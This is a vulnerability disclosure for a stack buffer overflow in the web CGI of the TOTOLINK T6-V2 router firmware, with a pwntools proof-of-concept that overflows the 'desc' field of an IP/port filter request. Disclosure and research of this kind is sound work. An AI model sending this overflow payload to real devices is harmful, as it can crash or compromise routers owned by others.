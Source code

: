 ## Overview

- The device's official website: http://www.totolink.cn/home/menu/detail.html?menu_listtpl=products&id=16&ids=33
- Firmware download website: http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=16&ids=36

## Affected version

T6-V2 V4.1.9cu.5179_B20201015

## Vulnerability details

The vulnerability exists in the router's WEB component. `/web_cste/cgi-bin/cstecgi.cgi` `FUN_00412ef4` (at address 0x412ef4) gets the JSON parameter `desc`, but without checking its length, copies it directly to local variables in the stack, causing stack overflow: 

<img src="img/image-20220529095338996.png" alt="image-20220529095338996" style="zoom:67%;" />

When parameter `addEffect` is equal to `1`, the program will enter the if branch at line 54.

<img src="img/image-20220529095501694.png" alt="image-20220529095501694" style="zoom:67%;" />

In the red box, program copies `desc` to the stack buffer without checking its length.

## PoC



```python
from pwn import *
import json

data = {
    "topicurl": "setting/setIpPortFilterRules",
    "addEffect": "1",
    "ip": "192.168.1.1",
    "proto": "UDP",
    "sPort": "9999",
    "dPort": "9999",
    "desc": 'A'*0x400
}

data = json.dumps(data)
print(data)

argv = [
    "qemu-mipsel-static",
    "-L", "./root/",
    "-E", "CONTENT_LENGTH={}".format(len(data)),
    "-E", "REMOTE_ADDR=192.168.2.1",
    "./cstecgi.cgi"
]

a = process(argv=argv)
a.sendline(data.encode())

a.interactive()
```

<img src="img/image-20220529095742244.png" alt="image-20220529095742244" style="zoom:67%;" align = "left"/>
